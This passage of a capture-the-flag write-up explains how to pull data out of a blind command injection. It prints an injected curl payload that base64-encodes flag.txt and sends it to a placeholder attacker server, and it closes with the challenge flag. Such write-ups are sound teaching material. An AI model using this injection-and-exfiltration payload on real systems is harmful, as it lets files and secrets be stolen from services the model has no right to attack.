 ![](./images/4.PNG)

Since it only returns a decimal value as the output, any command injection vulnerability will be "blind" so we will need to find a way to exfiltrate data.

One common way to do this is to find a writeable web directory, write the command output (or copy files), and browse them directly.

Another option is using standard tools to return the data, e.g., `curl`. The following input will convert the flag to base64 (so we don't lose special characters) and then make a HTTP request to our attacker server, with that encoded value as a GET parameter.

```bash
hi; curl https://ATTACKER_SERVER?lol=$(cat flag.txt | base64)
```

We can recheck our server logs to find the base64 encoded flag 🙂

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
